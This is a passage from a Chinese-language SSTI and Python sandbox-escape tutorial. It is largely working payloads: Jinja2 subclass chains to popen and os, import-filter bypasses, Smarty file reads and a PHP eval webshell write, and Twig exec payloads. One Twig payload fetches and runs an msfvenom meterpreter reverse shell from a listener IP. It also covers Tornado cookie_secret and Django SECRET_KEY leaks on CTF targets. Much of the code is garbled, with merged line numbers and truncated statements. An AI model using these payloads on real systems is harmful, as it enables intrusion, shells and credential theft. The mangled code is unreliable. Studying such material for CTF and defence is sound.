但是该方法遍历得到的类不准确，因为一些不相关的类名中也存在字符串 “os”，所以我们还要探索更有效的方法。
我们可以看到，即使是使用os模块执行命令，其也是调用的os模块中的popen函数，那我们也可以直接调用popen函数，存在popen函数的类一般是 os._wrap_close，但也不绝对。由于目标Python环境的不同，我们还需要遍历一下。
3. 寻找 popen 函数执行命令
首先编写脚本遍历目标Python环境中含有 popen 函数的类的索引号：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 import requests'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36' for i in range (500 ):"http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()[" +str (i)+"].__init__.__globals__}}" if 'popen' in res.text:print (i)
这样得到的索引还是很准确的。
除了这种方法外，我们还可以直接导入os模块，python有一个importlib类，可用load_module来导入你需要的模块。
4. 寻找 importlib 类执行命令
Python 中存在 <class '_frozen_importlib.BuiltinImporter'> 类，目的就是提供 Python 中 import 语句的实现（以及 __import__ 函数）。我么可以直接利用该类中的load_module将os模块导入，从而使用 os 模块执行命令。
首先编写脚本遍历目标Python环境中 importlib 类的索引号：
1 2 3 4 5 6 7 8 9 10 11 12 import requests'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36' for i in range (500 ):"http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()[" +str (i)+"]}}" if '_frozen_importlib.BuiltinImporter' in res.text:print (i)
5. 寻找 linecache 函数执行命令
linecache 这个函数可用于读取任意一个文件的某一行，而这个函数中也引入了 os 模块，所以我们也可以利用这个 linecache 函数去执行命令。
首先编写脚本遍历目标Python环境中含有 linecache 这个函数的子类的索引号：
1 2 3 4 5 6 7 8 9 10 11 12 import requests'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36' for i in range (500 ):"http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()[" +str (i)+"].__init__.__globals__}}" if 'linecache' in res.text:print (i)
6. 寻找 subprocess.Popen 类执行命令
从python2.4版本开始，可以用 subprocess 这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以得到子进程的返回值。
subprocess 意在替代其他几个老的模块或者函数，比如：os.system、os.popen 等函数。
首先编写脚本遍历目标Python环境中含有 linecache 这个函数的子类的索引号：
1 2 3 4 5 6 7 8 9 10 11 12 import requests'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36' for i in range (500 ):"http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()[" +str (i)+"]}}" if 'linecache' in res.text:print (i)
四、沙箱逃逸
4.1 原理
沙盒/沙箱
沙箱逃逸,就是在给我们的一个代码执行环境下,脱离种种过滤和限制,最终成功拿到shell权限的过程。其
python的沙箱逃逸就是在一个严格限制的python环境中，通过绕过限制和过滤达到执行更高权限，甚至getshell的过程。
既然是想getshell，或者说是执行命令就需要一个可执行命令的包。可直接执行命令的模块有
1 2 3 4 5 os
有些时候，比如CTF，我们并不需要去执行命令，而是去读取目录下的flag文件即可，也就是说需要文件读取的模块来执行，常用的文件读取模块：
1 2 3 4 file
不过其中file只在python2中执行，左2右3。
4.2 函数导入限制和绕过
1. import
一个受限制的环境，禁止导入敏感的包是最常见的方法，所以import一般是最容易被限制掉。
1 2 3 4 5 6 import re,syscompile ('import\s+(os|subprocess)' )match = re.search(pattern,sys.args[1 ])if match :print "forbidden module import detected" raise Exception
这种简单的限制不能导入包的形式，可以中间添加空格来绕过，或者使用其他方式导入包，比如
还可以使用编码的方式绕过对导入包关键字的检查，比如使用base64，python2中适用
1 2 3 4 5 6 7 8 9 10 11 12 >>> import base64>>> base64.b64encode("os" )'b3M=' >>> flag = __import__ (base64.b64decode('b3M=' ))>>> flag.system('whoami' )>>> import importlib>>> flag = importlib.import_module('b3M=' .decode('base64' ))>>> flag.system('whoami' )
或者使用字符串拼接的方式
1 >>> __import__('o'+'s').system('who'+'ami')
字符串f翻转截取
1 2 3 4 >>> __import__('so'[::-1]).system('whoami')
再万一，他是这么禁止的
1 2 3 4 5 6 import re,syscompile ('import' )match = re.search(pattern,sys.args[1 ])if match :print "forbidden module import detected" raise Exception
这样的话，不管怎么换导入函数都会被禁止。那么是否有不直接使用import关键字来导入的方式。既然需要导入也就是只需要能执行对应的库就可以。
使用execfile，不过在这之前需要判断得到库的物理路径。如果sys模块没被禁用的话，就可以使用sys来获取物理路径。这种方式只能用在python2中，python3取消了execfile
1 2 3 >>> execfile('/usr/lib/python2.7/os.py') #Linux系统下默认路径
python3可以利用读取文件，配合exec来执行
1 2 3 4 5 6 7 >>> f = open(r'/usr/lib/python3.6/os.py','r')
使用with open的形式
1 2 3 4 5 >>> with open('/usr/lib/python3.6/os.py','r') as f:
或者使用字符串拼接的方式，但是需要跟exec，eval一起利用。
1 2 >>> exec('imp'+'ort'+' '+'os;'+'os.system("whoami")')
这里exec不需要导入就可以直接引用，当然不需要导入就可以引用的函数不止这一个，因为一个内建函数的原因。
2. builtins
__builtins__即时引用，在程序还为执行代码的时候就已经加载进来了。此模块并不需要导入，可以在任何模块中执行引用。比如在python2中
在python3中
所以我们通过dict属性来调用这些函数，例如如下调用exec来执行其中的python语句。
1 2 >>> __builtins__.__dict__['exec']("print('ok')")
通过内建函数来导入包
1 2 >>> __builtins__.__dict__['__import__']('os').system('whoami')
万一跟上面一样，禁用了import，当然还可以使用拼接的方式
1 2 >>> __builtins__.__dict__['__imp'+'ort__']('os').system('whoami')
如果在__builtins__中，部分需要引用的函数被删除。不能直接用dict属性来调用，可以使用reload来重新加载
如果仔细看上面的图片就可以看到，在python2中reload也是__builtin__的内建函数。如果此函数被删除在python2中也不可以直接引用了。python3中reload不再是内建函数，3.4之前是imp模块下的函数，而之后是importlib模块下的函数。
所以可以直接利用imp模块来导入，python2也可以利用。
1 2 3 >>> import imp
在所上的导入模块中，系统的包都在一个默认路径下，被sys的modules存储记录。如果把其中的os模块删除就不能再去加载os模块了，这时候需要手动把os重新加载进去。一般尝试默认路径，或者sys查看存储路径
1 2 3 >>> import sys
3. 魔法函数
python沙箱逃逸还是离不开继承关系和子父类关系，在查看和使用类的继承，魔法函数起到了不可比拟的作用。
先看看几个常用的魔法函数
1 2 3 4 5 6 7 __class__class A ():pass print (a.__class__)
1 2 3 4 5 6 7 8 9 10 11 __mro__object class A :pass class B (A ):pass class C (A ):pass class D (B, C):pass print (D.__mro__)
1 2 3 4 5 6 7 8 9 10 __subclasses__class A (object ):pass class B (A ):pass class C (A ):pass print (A.__subclasses__())
1 2 3 4 5 6 7 8 __bases__class A (object ):pass class B (A ):pass print (B.__bases__)
1 2 3 4 5 6 7 __init__class A :def __init__ (self ):print ('ok' )
1 2 3 4 5 6 7 8 __globals__class A (object ):def __init__ (self, a, b ):'A' : <class '__main__.A' >, 'a' : <__main__.A object at 0x0000000001692390 >, 'importlib' : <module 'importlib' from 'D:\anaconda\lib\importlib\__init__.pyc' >, '__builtins__' : <module '__builtin__' (built-in )>, 'pattern' : <_sre.SRE_Pattern object at 0x0000000001695030 >, 'base64' : <module 'base64' from 'D:\anaconda\lib\base64.pyc' >, 'sys' : <module 'sys' (built-in )>, 'flag' : <module 'os' from 'D:\anaconda\lib\os.pyc' >, '__package__' : None , 'os' : <module 'os' from 'D:\anaconda\lib\os.pyc' >,'__doc__' : None , 'match' : <_sre.SRE_Match object at 0x00000000039A9B28 >}
1 2 3 4 5 6 7 8 9 10 11 12 13 14 __getattribute__class A :def __init__ (self ):"Bob" def __getattribute__ (self,item ):print ("ok" )def __getattr__ (self ):print ('getattr' )
4. 类继承使用
尝试利用继承关系来找到object类
1 "".__class__.__bases__ #(<class 'object'>,)
前面不仅可以使用双引号，还可以利用列表或者字典类型，区别在查找类型的时候在不同的基础上查找，返回都是元组。
1 2 [].__class__.__bases__
在object类下去查找所有的子类，然后去查找可利用类，__bases__返回是元组，使用下标获得object类。
1 "".__class__.__bases__[0].__subclasses__()
找到需要使用的类，其中有可以使用的类，在python3中使用
1 <class 'os._wrap_close'>,<class 'warnings.WarningMessage'>
调用他们
1 2 3 4 5 >>> "".__class__.__bases__[0].__subclasses__()[128]
如果子类过多，不好查找是第几个下标，可以使用如下来标记
1 2 for i in enumerate("".__class__.__bases__[0].__subclasses__()):
先来读取一下文件，C盘下的win.ini文件
1 "".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__
从中查找是否有关于文件读取的方法，比如open，file函数。在最后找到一个popen函数。
1 2 3 4 "".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']("C:\\windows\\win.ini").read()
如果想直接在终端显示出来
1 "".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']("type C:\\windows\\win.ini").read()
在python2中可以使用如下形式读取文件的第一行，在python2中前面是否字符串还是元组或者字典对后面类的查找有不一样的结果。
1 ().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['linecache'].getline("C:\\windows\\win.ini",1)
执行命令
1 2 >>> ().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['linecache'].os.system('whoami'
但是python2如果使用字符串的形式，会报如下错误，因为__bases__获取的并不是object类
1 2 3 4 >>> "".__class__.__bases__[0].__subclasses__()[59]
只需要再去获得一次即可
1 2 >>> "".__class__.__bases__[0].__bases__[0].__subclasses__()[59]
5. 特殊函数查找
5.1 python3
在GitHub的python页面上把自带函数全部获取目前的3.8的模块(202)
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 asyncio
将这么模块进行筛选，规则这些模块哪些有调用上面提到的模块，或者文件读取等方法。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 import codecsfrom collections import defaultdictwith codecs.open ('python.txt' , 'r' , encoding='UTF-8' ) as f:'.py' , '' ) for m in modules]'os' , 'platform' , 'subprocess' , 'timeit' , 'importlib' , 'codecs' , 'sys' , 'commands' ]'__import__' , '__builtins__' , 'exec' , 'eval' , 'execfile' , 'compile' , 'file' , 'open' , 'codecs' ]list )for m in modules:try :__import__ (m)except Exception as e:pass for t in all_targets:if t in module.__dict__:print ("可利用模块数量为:" +str (len (results)))for k, v in results.items():print (k, v)
筛选完成后有python3两百个模块可能可以利用，然后再利用脚本进一步筛选
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 find_modules = { }'os' , 'platform' , 'subprocess' , 'timeit' , 'importlib' , 'codecs' , 'sys' ]'__import__' , '__builtins__' , 'exec' , 'eval' , 'execfile' , 'compile' , 'file' , 'open' ]list (set (list (find_modules.keys()) + target_modules + target_functions))list (set (list (find_modules.keys()) + target_modules))0 ].__subclasses__()for s in subclasses]print ('----------1-----------' )for i, s in enumerate (sub_name):for f in all_targets:if f == s:if f in target_functions:print (i, f)elif f in all_modules:for t in target:if t in sub_dict:print (i, f, target)print ('----------2-----------' )for i, sub in enumerate (subclasses):try :for m in all_targets:if m in more:print (i, sub, m, find_modules.get(m))except Exception as e:pass print ('----------3-----------' )for i, sub in enumerate (subclasses):try :for j, v in enumerate (more):for f in all_targets:try :if f in v:if f in target_functions:print (i, j, sub, f)elif f in all_modules:for t in target:if t in sub_dict:print (i, j, sub, f, target)except Exception as e:pass except Exception as e:pass print ('----------4-----------' )for i, sub in enumerate (subclasses):try :for f in all_targets:if f in more:print (i, f)except Exception as e:pass
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 ----------2-----------
筛选出来的模块还是很多，每个分块中，不用的部分代表利用不同的方式，为了更方便的利用进一步筛选具有更直接利用方式的类，关注再命令执行和读写上
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 ----------2-----------
既然筛选出来，那么选其中一个利用来读取文件：
1 2 >>> "".__class__.__bases__[0].__subclasses__()[103]
完整执行
1 2 3 >>> "".__class__.__bases__[0].__subclasses__()[103].__init__.__globals__['open']("C:\\windows\\win.ini").read()
执行命令，此处如果使用原作者给的第三种利用代码在python3中会报错，python3中对于dict.values不再返回列表，而是返回view，不可索引的对象。
1 2 >>> "".__class__.__bases__[0].__subclasses__()[103].__init__.__globals__['__builtins__']['eval']('__import__("os").system("whoami")')
5.2 python2
python2.7的模块(252)
1 2 3 4 5 6 7 8 9 10 11 12 bsddb
同样利用原代码进行筛选
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 ----------1-----------
进一步获取可以直接执行命令或者读取文件的类
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 ----------1-----------
选取其中一个执行命令，__mro__输出父类，最后一个父类为object
1 2 3 4 5 >>> ().__class__.__mro__[-1].__subclasses__()[72]
读取文件
1 >>> ().__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['__builtins__']['file']("C:\\windows\\win.ini").read()'; for 16-bit app support\n[fonts]\n[extensions]\n[mciextensions]\n[files]\n[Mail]\nMAPI=1\nCMCDLLNAME32=mapi32.dll\nCMC=1\nMAPIX=1\nMAPIXVER=1.0.0.1\nOLEMessagin
其中还可以执行的模块还有很多，比如使用含有__builtins__的其他模块，来调用加载的os等。
筛选代码来源：Python沙箱逃逸总结
参考：https://misakikata.github.io/2020/04/python-沙箱逃逸与SSTI/#python2
五、PHP-smarty模板
Smarty是最流行的PHP模板语言之一，为不受信任的模板执行提供了安全模式。这会强制执行在 php 安全函数白名单中的函数，因此我们在模板中无法直接调用 php 中直接执行命令的函数(相当于存在了一个disable_function)
但是，实际上对语言的限制并不能影响我们执行命令，因为我们首先考虑的应该是模板本身，恰好 Smarty 很照顾我们，在阅读模板的文档 以后我们发现：$smarty内置变量可用于访问各种环境变量，比如我们使用 self 得到 smarty 这个类以后我们就去找 smarty 给我们的的方法
smarty/libs/sysplugins/smarty_internal_data.php ——> getStreamVariable() 这个方法可以获取传入变量的流
这个函数流程大致为：打开你输入的文件$variable，判断文件名是否存在，存在的话在循环中读取到文件全部内容，赋值给变量result，如果不存在则看变量smarty，抛出不同问题，分别为，文件不存在或者文件内容为空
因此我们可以用这个方法读文件，payload:
1 {self::getStreamVariable("file:///etc/passwd")}
同样
smarty/libs/sysplugins/smarty_internal_write_file.php ——> Smarty_Internal_Write_File 这个类中有一个writeFile方法
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 class Smarty_Internal_Write_File public function writeFile ($_filepath , $_contents , Smarty $smarty {$_error_reporting = error_reporting ();error_reporting ($_error_reporting & ~E_NOTICE & ~E_WARNING);if ($smarty ->_file_perms !== null ) {$old_umask = umask (0 );$_dirpath = dirname ($_filepath );if ($_dirpath !== '.' && !file_exists ($_dirpath )) {mkdir ($_dirpath , $smarty ->_dir_perms === null ? 0777 : $smarty ->_dir_perms, true );$_tmp_file = $_dirpath . DS . str_replace (array ('.' , ',' ), '_' , uniqid ('wrt' , true ));if (!file_put_contents ($_tmp_file , $_contents )) {error_reporting ($_error_reporting );throw new SmartyException ("unable to write file {$_tmp_file} " );if (Smarty ::$_IS_WINDOWS ) {if (is_file ($_filepath )) {unlink ($_filepath );$success = @rename ($_tmp_file , $_filepath );else {$success = @rename ($_tmp_file , $_filepath );if (!$success ) {if (is_file ($_filepath )) {unlink ($_filepath );$success = @rename ($_tmp_file , $_filepath );if (!$success ) {error_reporting ($_error_reporting );throw new SmartyException ("unable to write file {$_filepath} " );if ($smarty ->_file_perms !== null ) {chmod ($_filepath , $smarty ->_file_perms);umask ($old_umask );error_reporting ($_error_reporting );return true ;
可以看到 writeFile 函数第三个参数一个 Smarty 类型，后来找到了 self::clearConfig()，函数原型：
1 2 3 4 public function clearConfig($varname = null)
因此我们可以构造payload写个webshell:
1 {Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php eval($_GET['cmd']); ?>",self::clearConfig())}
CTF地址：https://buuoj.cn/challenges（CISCN2019华东南赛区Web11）
题目模拟了一个获取IP的API，并且可以在最下方看到 “Build With Smarty !” 可以确定页面使用的是Smarty模板引擎。
在页面的右上角发现了IP，但是题目中显示的API的URL由于环境的原因无法使用，猜测这个IP受X-Forwarded-For头控制。
将XFF头改为 {6*7} 会发现该位置的值变为了42，便可以确定这里存在SSTI。
直接构造 {system(‘cat /flag’)} 即可得到flag
1. Smarty-SSTI常规利用方式
1 2 3 **1. {$smarty.version}**

1 2 3 2. {php}{/php}
Smarty支持使用 {php}{/php} 标签来执行被包裹其中的php指令，最常规的思路自然是先测试该标签。但就该题目而言，使用{php}{/php}标签会报错：
因为在Smarty3版本中已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用。
1 2 3 **3. {literal}**
这个地方借助了 {literal} 这个标签，因为 {literal} 可以让一个模板区域的字符原样输出。 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。但是这种写法只适用于php5环境，这道ctf使用的是php7，所以依然失败
4. getstreamvariable
1 {self::getStreamVariable("file:///etc/passwd")}
Smarty类的getStreamVariable方法的代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 public function getStreamVariable ($variable $_result = '' ;$fp = fopen ($variable , 'r+' );if ($fp ) {while (!feof ($fp ) && ($current_line = fgets ($fp )) !== false ) {$_result .= $current_line ;fclose ($fp );return $_result ;$smarty = isset ($this ->smarty) ? $this ->smarty : $this ;if ($smarty ->error_unassigned) {throw new SmartyException ('Undefined stream variable "' . $variable . '"' );else {return null ;
可以看到这个方法可以读取一个文件并返回其内容，所以我们可以用self来获取Smarty对象并调用这个方法。然而使用这个payload会触发报错如下：
可见这个旧版本Smarty的SSTI利用方式并不适用于新版本的Smarty。而且在3.1.30的Smarty版本中官方已经把该静态方法删除。 对于那些文章提到的利用 Smarty_Internal_Write_File 类的writeFile方法来写shell也由于同样的原因无法使用。
1 2 3 4 5 6 7 **5. {if}{/if}**
同样还能用来执行一些系统命令：
2. CTF漏洞成因
本题中引发SSTI的代码简化后如下：
1 2 3 4 5 6 <?php require_once ('./smarty/libs/' . 'Smarty.class.php' );$smarty = new Smarty ();$ip = $_SERVER ['HTTP_X_FORWARDED_FOR' ];$smarty ->display ("string:" .$ip );
可以看到这里使用字符串代替smarty模板，导致了注入的Smarty标签被直接解析执行，产生了SSTI。
3. PHP的模板注入
如果是在cookie处执行，最好抓包打payload，可能有url编码的问题
六、PHP-Blade模板
Blade 是 Laravel 提供的一个既简单又强大的模板引擎。
关于blade模板这里不再多说，请参考《laravel Blade 模板引擎 》
遇到在学吧…
七、PHP-Twig引擎
Twig是来自于Symfony的模板引擎，它非常易于安装和使用。它的操作有点像Mustache和liquid。
eg：
1 2 3 4 5 6 7 <?php require_once dirname (__FILE__ ).'\twig\lib\Twig\Autoloader.php' ;Twig_Autoloader ::register (true );$twig = new Twig_Environment (new Twig_Loader_String ());$output = $twig ->render ("Hello {{name}}" , array ("name" => $_GET ["name" ])); echo $output ;?>
1 2 3 4 5 Twig使用一个加载器 loader(Twig_Loader_Array) 来定位模板，以及一个环境变量 environment(Twig_Environment) 来存储配置信息。
显然这段代码并没有什么问题，即使你想通过name参数传递一段JavaScript代码给服务端进行渲染，也许你会认为这里可以进行 XSS，但是由于模版引擎一般都默认对渲染的变量值进行编码和转义，所以并不会造成跨站脚本攻击:
但是,如果渲染的模版内容受到用户的控制,情况就不一样了。修改代码为:
1 2 3 4 5 6 7 <?php require_once dirname (__FILE__ ).'/../lib/Twig/Autoloader.php' ;Twig_Autoloader ::register (true );$twig =newTwig_Environment (newTwig_Loader_String ());$output =$twig ->render ("Hello {$_GET['name']} " );echo $output ;?>
上面这段代码在构建模版时，拼接了用户输入作为模板的内容，现在如果再向服务端直接传递 JavaScript 代码，用户输入会原样输出，测试结果显而易见:
1 2 3 4 5 如果服务端将用户的输入作为了模板的一部分，那么在页面渲染时也必定会将用户输入的内容进行模版编译和解析最后输出。
尝试插入一些正常字符和 Twig 模板引擎默认的注释符，构造 Payload 为:
1 bmjoker{# comment #}{{2*8}}OK
实际服务端要进行编译的模板就被构造为:
1 bmjoker{# comment #}{{2*8}}OK
1 由于 {# comment #} 作为 Twig 模板引擎的默认注释形式，所以在前端输出的时候并不会显示，而 {{2*8}} 作为模板变量最终会返回16 作为其值进行显示，因此前端最终会返回内容 Hello bmjoker16OK
通过上面两个简单的示例,就能得到 SSTI 扫描检测的大致流程(这里以 Twig 为例):
同常规的 SQL 注入检测，XSS 检测一样，模板注入漏洞的检测也是向传递的参数中承载特定 Payload 并根据返回的内容来进行判断的。
每一个模板引擎都有着自己的语法，Payload 的构造需要针对各类模板引擎制定其不同的扫描规则，就如同 SQL 注入中有着不同的数据库类型一样。
简单来说，就是更改请求参数使之承载含有模板引擎语法的 Payload，通过页面渲染返回的内容检测承载的 Payload 是否有得到编译解析，有解析则可以判定含有 Payload 对应模板引擎注入，否则不存在 SSTI。
凡是使用模板的网站，基本都会存在SSTI，只是能否控制其传参而已。
接下来借助XVWA的代码来实践演示一下SSTI注入
如果在web页面的源代码中看到了诸如以下的字符，就可以推断网站使用了某些模板引擎来呈现数据
1 2 3 4 <div>{$what}</div>
通过注入了探测字符串 $579，以查看应用程序是否进行了相应的计算：
1 根据这个响应，我们可以推测这里使用了模板引擎，因为这符合它们对于 {{ }} 的处理方式
在这里提供一个针对twig的攻击载荷：
1 {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
使用msf生成了一个php meterpreter有效载荷
1 msfvenom -p php/meterpreter/reverse_tcp -f raw LHOST=192.168.127.131 LPORT=4321 > /var/www/html/shell.txt
msf进行监听：
模板注入远程下载shell，并重命名运行
1 {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("wget http://192.168.127.131/shell.txt -O /tmp/shell.php;php -f /tmp/shell.php")}}
以上就是php twig模板注入，由于以上使用的twig为2.x版本，现在官方已经更新到3.x版本，根据官方文档新增了 filter 和 map 等内容，补充一些新版本的payload：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 {{'/etc/passwd' |file_excerpt (1 ,30 )}}get (1 ).__construct ('/etc/passwd' ,'' )}}get (1 ).openFile.fread (99 )}}registerUndefinedFilterCallback ("exec" )}}{{_self.env.getFilter ("whoami" )}}enableDebug ()}}{{_self.env.isDebug ()}}"id" ]|map ("system" )|join ("," )"<?php phpinfo();" :"/var/www/html/shell.php" }|map ("file_put_contents" )}}"id" ,0 ]|sort ("system" )|join ("," )}}"id" ]|filter ("system" )|join ("," )}}0 ,0 ]|reduce ("system" ,"id" )|join ("," )}}'cat /etc/passwd' ]|filter ('system' )}}
具体payload分析详见：《TWIG 全版本通用 SSTI payloads 》
利用payload为： msf反弹shell
1 {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}} //id是执行linux命令的地方，这个payload好像只能回显最前面的一个
补充：TWIG 全版本通用 SSTI payloads
八、Python-tornado模板
1 tornado render是python中的一个渲染函数，也就是一种模板，通过调用的参数不同，生成不同的网页，如果用户对render内容可控，不仅可以注入XSS代码，而且还可以通过{{}}进行传递变量和执行简单的表达式。
以下代码将定义一个TEMPLATE变量作为一个模板文件，然后使用传入的name替换模板中的"FOO"，在进行加载模板并输出，且未对name值进行安全检查输入情况。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 import tornado.templateimport tornado.ioloopimport tornado.web''' <html> <head><title> Hello {{ name }} </title></head> <body> Hello max </body> </html> ''' class MainHandler (tornado.web.RequestHandler):def get (self ):'name' , '' )"FOO" ,name)r"/" , MainHandler),], debug=True , static_path=None , template_path=None )if __name__ == '__main__' :8000 )
这里拿一道BUUCTF的题来演示一下tornado render模板注入：
[护网杯 2018]easy_tornado
根据上面的信息，我们知道flag在/fllllllllllllag文件中
render是python中的一个渲染函数，也就是一种模板，通过调用的参数不同，生成不同的网页render配合Tornado使用
最后就是这段代码md5(cookie_secret+md5(filename))，再来分析我们访问的链接：
1 http://313ac7f3-c560-4d46-b1ff-daa279729980.node4.buuoj.cn:81/file?filename=/flag.txt&filehash=27eda9bc17cbe1b856e6d541e10c16ea
推测md5加密过后的值就是url中filehash对应的值，想获得flag只要我们在filename中传入/fllllllllllllag文件和filehash，所以关键是获取cookie_secret
1 在tornado模板中，存在一些可以访问的快速对象，比如 {{escape(handler.settings["cookie"])}}，这个其实就是handler.settings对象，里面存储着一些环境变量。
具体分析请参照《python SSTI tornado render模板注入 》。
观察错误页面，发现页面返回的由msg的值决定
修改msg的值注入，获得环境变量
1 cookie_secret: faaff564-f1dd-429d-90b3-130ab49962ea
得到cookie_secret的值，根据上面的md5进行算法重构，就可以得到filehash，这里给出py3的转换脚本
1 2 3 4 5 6 7 8 9 10 import hashlibhash = hashlib.md5()'/fllllllllllllag' "faaff564-f1dd-429d-90b3-130ab49962ea" hash .update(filename.encode('utf-8' ))hash .hexdigest()hash = hashlib.md5()hash .update((cookie_secret+s1).encode('utf-8' ))print (hash .hexdigest())
得到filehash=874955327dac355296226eb28f1b02b8，得到flag
九、Python-Django模板
先看存在漏洞的代码：
1 2 3 def view (request, *args, **kwargs ):'Hello {user}, This is your email: ' + request.GET.get('email' )return HttpResponse(template.format (user=request.user))
很明显 email 就是注入点，但是条件被限制的很死，很难执行命令，现在拿到的只有有一个和user有关的变量request.user ，这个时候我们就应该在没有应用源码的情况下去寻找框架本身的属性，看这个空框架有什么属性和类之间的引用。
后来发现Django自带的应用 “admin”（也就是Django自带的后台）的models.py中导入了当前网站的配置文件：
所以可以通过某种方式，找到Django默认应用admin的model，再通过这个model获取settings对象，进而获取数据库账号密码、Web加密密钥等信息。
payload如下：
1 2 3 http://localhost:8000 /?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}8000 /?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
十、Java-velocity模板
（以下板块参照自《CVE-2019-3396 Confluence Velocity SSTI漏洞浅析 》）
Apache Velocity是一个基于Java的模板引擎，它提供了一个模板语言去引用由Java代码定义的对象。Velocity是Apache基金会旗下的一个开源软件项目，旨在确保Web应用程序在表示层和业务逻辑层之间的隔离（即MVC设计模式）。
1. 基本语法
语句标识符
#用来标识Velocity的脚本语句，包括#set、#if 、#else、#end、#foreach、#end、#include、#parse、#macro等语句。
变量
$用来标识一个变量，比如模板文件中为Hello $a，可以获取通过上下文传递的$a
声明
set用于声明Velocity脚本变量，变量可以在脚本中声明
1 2 3 #set($a ="velocity" )1 )"1" ,"2" ])
注释
单行注释为##，多行注释为成对出现的#* … *#
条件语句
以if/else为例：
1 2 3 4 5 6 7 8 9 #if ($foo<10 )1 </strong>10 )2 </strong>6 )3 </strong>else 4 </strong>
转义字符
如果$a已经被定义，但是又需要原样输出$a，可以试用\转义作为关键的$
基础使用
使用Velocity主要流程为：
初始化Velocity模板引擎，包括模板路径、加载类型等
创建用于存储预传递到模板文件的数据的上下文
选择具体的模板文件，传递数据完成渲染
VelocityTest.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 package Velocity;import org.apache.velocity.Template;import org.apache.velocity.VelocityContext;import org.apache.velocity.app.VelocityEngine;import java.io.StringWriter;public class VelocityTest {public static void main (String[] args) {VelocityEngine velocityEngine = new VelocityEngine ();"file" );"src/main/resources" );VelocityContext context = new VelocityContext ();"name" , "Rai4over" );"project" , "Velocity" );Template template = velocityEngine.getTemplate("test.vm" );StringWriter sw = new StringWriter ();"final output:" + sw);
模板文件：src/main/resources/test.vm
1 2 3 Hello World! The first velocity demo.
输出结果：
1 2 3 4 5 final output:
通过 VelocityEngine 创建模板引擎，接着 velocityEngine.setProperty 设置模板路径 src/main/resources、加载器类型为file，最后通过 velocityEngine.init() 完成引擎初始化。
通过 VelocityContext() 创建上下文变量，通过put添加模板中使用的变量到上下文。
